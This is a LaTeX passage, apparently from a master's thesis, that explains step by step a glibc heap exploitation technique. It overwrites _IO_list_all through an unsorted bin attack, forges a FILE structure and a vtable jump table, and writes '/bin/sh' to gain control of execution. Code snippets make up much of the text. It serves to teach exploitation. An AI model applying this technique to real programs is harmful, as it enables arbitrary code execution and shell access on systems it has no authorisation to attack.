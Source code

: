 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\sbs{small bins}
\begin{document}
The final result is the below code :
\begin{lstlisting}[language=c,frame=tlrb]
io_list_all = top[2] + 0x9a8;
\end{lstlisting}

For the rest of the attack, we can use an \ub{} attack. As we mentioned before, in an \ub{} attack we can overwrite the bk pointer with any address, in this case, we want to overwrite io\_list\_all with the address of the \ub{} 
\begin{lstlisting}[language=c,frame=tlrb]
top[3] = io_list_all - 0x10;
\end{lstlisting}


At least we need to call system function inorder to run the shell:
\begin{lstlisting}[language=c,frame=tlrb]
memcpy( ( char *) top, "/bin/sh\x00", 8);
\end{lstlisting}


As we mentioned, the libc flushes all file pointers inside the io\_list\_all link list, which currently overwrites with the address of the \ub{}. 
The goal is to gain control of execution with the help of fd pointers. In the real list, the next file pointer is located at base\_address+0x68, if we consider bins, the mentioned address is a \sbs{}[4] which keeps a chunk between 90 to 98. We can conclude, if we manipulate the top chunk size again and set the size of 97, on the next allocation with a smaller size, the heap manager checks chunks in the \ub{} and puts it into corresponding bins which are smallbin[4]. Also, if we check the source code, we can see this size check : 
\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
    || __builtin_expect (victim->size > av->system_mem, 0))
   malloc_printerr (check_action, "malloc(): memory corruption",
       chunk2mem (victim), av); 
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk, if the size smaller than MINSIZE then the abort procedure called and an attack be performed.
\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events are complete , but we have to meet the condition of IO\_LIST\_ALL
\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}
\end{document}
